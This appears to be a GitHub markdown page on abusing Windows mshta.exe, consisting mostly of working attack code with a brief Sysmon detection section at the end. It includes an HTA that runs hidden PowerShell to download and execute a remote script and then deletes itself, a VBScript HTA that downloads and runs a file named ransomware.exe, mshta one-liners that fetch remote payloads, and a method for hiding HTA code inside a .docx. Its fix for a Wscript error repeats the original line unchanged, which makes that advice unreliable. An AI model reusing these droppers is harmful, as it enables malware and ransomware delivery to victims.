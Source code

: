 ### The magic behind ```mshta.exe```
Mshta.exe is a utility that executes **Microsoft HTML Applications (HTA) **
An **HTML Application (HTA)** is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript.

#### Parameters
Parameters to the ```mshta.exe``` include:
* ```-xxx``` 


#### Special cases


#### Malicious scenarios
Because it runs on windows and support VBScript and Jscript, it's very obvious that it could be used in a malicious way

**The following is the format of HTA file**

```html
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script>
//We will use Wscript.shell in order to launch PowerShell
// new ActiveXObject is JScript
a = new ActiveXObject('Wscript.Shell');
//Our command to execute
cmd = "powershell  -ep Bypass -nop -noexit -c (IEX (New-Object Net.WebClient).DownloadString('http://[IP]/projects/exec.ps1'))";
//Run the command, 0 is needed so that no PowerShell window will appear
a.Run(cmd,0);

//We use this in order to get erase the HTA file after it has executed
b = new ActiveXObject("Scripting.FileSystemObject");
//Get filename and edit it so that windows can read it properly
filename = window.location.href;
filename = decodeURI(filename);
filename = filename.slice(8);
//Get a handle on the file
c = b.GetFile(filename);
//Delete it
c.Delete();
//Close the MSHTA window
window.close();
</script>
</head>
<body>
</body>
</html>
```

the above HTA file uses ActiveX Microsoft extension to JavaScript to run cmd command which will run PowerShell and download another PowerShell script

the following tag is what defines that the following is HTA application so it could be parsed with mshta.exe as HTA file and execute the buried Jscript code in it



```html
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">
```

mshta.exe always looking for this tag to identify the file as HTA



to run the HTA file, *run mshta.exe from cmd not PowerShell*

```powershell
mshta.exe http://webserver/payload.hta
```

```powershell
mshta.exe [Full Path to the File]
```




mshta.exe could also run VBScript code as one-liner

```vbscript
mshta.exe vbscript:Close(MsgBox("Karem"))
```

```vbscript
mshta.exe vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

****

you also can Just VBScript
```vbscript
<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="CS"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">


<script type="text/vbscript" LANGUAGE="VBScript" >
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://[IP]/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")

</script>
</head>
<body>
</body>
</html>
```

some times when you run the above code you get an error saying that Wscript is not defined, this is happen because of this line

```vbscript
 Set objShell = Wscript.CreateObject("Wscript.Shell")
```


 so just remove the Wscript and make it

```vbscript
Set objShell = Wscript.CreateObject("Wscript.Shell")
```
and it will run with no issue
this problem always happens to me when I run VBScript from other file, bu it works fine it the file is just VBScript and I run it through Wscrip.exe

****



**HTA file execution Tricks**

We can append the HTA file at the end of any other (not image) file

```powershell
copy /b doc.docx+file.hta newdoc.docx
mshta.exe [full path to newdoc.docx]
```

mshta.exe will not care about the extension of the supplied file as long as it's not image extension (ex: jpg, jpeg,png,..), it will just search for the tag that defines the HTA file



Notes

- if you append the data to docx file then run it using mshta.exe, it will work but once the victim opens it using word, word will identify that there is a problem but will open the file eventually after trimming the HTA code, and when user tires to close the file, word will tell hom to save the new doc which has no HTA, if the user saved the new file and removed the one that word told him that it's corrupted, then our HTA code is gone
- if you append HTA to image file and try to open it using mshta, it will open the image in a windows and will not run the JScript inside the HTA

 

### Detection

- sysmon

  - process create

    - mshta.exe process create with command line identify the file that will run the HTA
    - cmd process create with mshta.exe as parent process
    - PowerShell process that has cmd.exe as parent process 

    
    
    ![MSHTA](./imaghes/mshta.jpg)
    
    

### Reference 
* [Good Resource about MSHTA] http://blog.sevagas.com/?Hacking-around-HTA-files
* https://github.com/karemfaisal/SMUC/blob/master/MSHTA/Mshta.md
